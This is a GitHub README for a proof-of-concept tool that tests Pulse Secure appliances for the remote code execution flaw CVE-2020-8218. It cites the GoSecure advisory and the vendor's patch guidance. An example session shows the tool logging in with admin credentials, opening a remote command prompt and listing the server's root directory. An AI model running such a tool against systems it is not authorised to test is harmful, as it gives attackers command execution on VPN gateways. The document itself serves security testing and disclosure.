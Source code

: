 # pulse-gosecure-rce

```
          _____                    _____                    _____            _____                    _____          
         /\    \                  /\    \                  /\    \          /\    \                  /\    \         
        /::\    \                /::\____\                /::\____\        /::\    \                /::\    \        
       /::::\    \              /:::/    /               /:::/    /       /::::\    \              /::::\    \       
      /::::::\    \            /:::/    /               /:::/    /       /::::::\    \            /::::::\    \      
     /:::/\:::\    \          /:::/    /               /:::/    /       /:::/\:::\    \          /:::/\:::\    \     
    /:::/__\:::\    \        /:::/    /               /:::/    /       /:::/__\:::\    \        /:::/__\:::\    \    
   /::::\   \:::\    \      /:::/    /               /:::/    /        \:::\   \:::\    \      /::::\   \:::\    \   
  /::::::\   \:::\    \    /:::/    /      _____    /:::/    /       ___\:::\   \:::\    \    /::::::\   \:::\    \  
 /:::/\:::\   \:::\____\  /:::/____/      /\    \  /:::/    /       /\   \:::\   \:::\    \  /:::/\:::\   \:::\    \ 
/:::/  \:::\   \:::|    ||:::|    /      /::\____\/:::/____/       /::\   \:::\   \:::\____\/:::/__\:::\   \:::\____\
\::/    \:::\  /:::|____||:::|____\     /:::/    /\:::\    \       \:::\   \:::\   \::/    /\:::\   \:::\   \::/    /
 \/_____/\:::\/:::/    /  \:::\    \   /:::/    /  \:::\    \       \:::\   \:::\   \/____/  \:::\   \:::\   \/____/ 
          \::::::/    /    \:::\    \ /:::/    /    \:::\    \       \:::\   \:::\    \       \:::\   \:::\    \     
           \::::/    /      \:::\    /:::/    /      \:::\    \       \:::\   \:::\____\       \:::\   \:::\____\    
            \::/____/        \:::\__/:::/    /        \:::\    \       \:::\  /:::/    /        \:::\   \::/    /    
             ~~               \::::::::/    /          \:::\    \       \:::\/:::/    /          \:::\   \/____/     
                               \::::::/    /            \:::\    \       \::::::/    /            \:::\    \         
                                \::::/    /              \:::\____\       \::::/    /              \:::\____\        
                                 \::/____/                \::/    /        \::/    /                \::/    /        
                                  ~~                       \/____/          \/____/                  \/____/         
  ```                                                                                                                   

## About
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218). This tool was built around the POC from the GoSecure advisory (see refs). All credit to them for the finding.

As recommended by Pulse Secure:
***"The solution for these vulnerabilities is to upgrade the Pulse Connect Secure and Pulse Policy Secure server software version to the 9.1R8. This following PCS/PPS version can be downloaded from https://my.pulsesecure.net."***

Refs:
* https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44516/?kA23Z000000L6i5SAC
* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

```
Example usage:
withdk@hogwarts source % python pulse-gosecure-rce.py -u https://192.168.1.120 --user admin --password mypassword
[*] Successfully logged in
(Cmd) ls /
[*] Sending cmd ls /
[*] Sending exploit...
[*] Getting output...
******************************************
2.6.32.358-x86_64
bin
boot
cgroups
data
dev
etc
home
lib
lib64
modules
opt
pkg
proc
runtime
sbin
sys
tmp
usr
va
var
webserver

******************************************
(Cmd) exit
Bye
[*] Getting logout URL
[*] Sending logout URL
[*] Successfully logged out.
```

DK @withdk

## Disclaimer
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
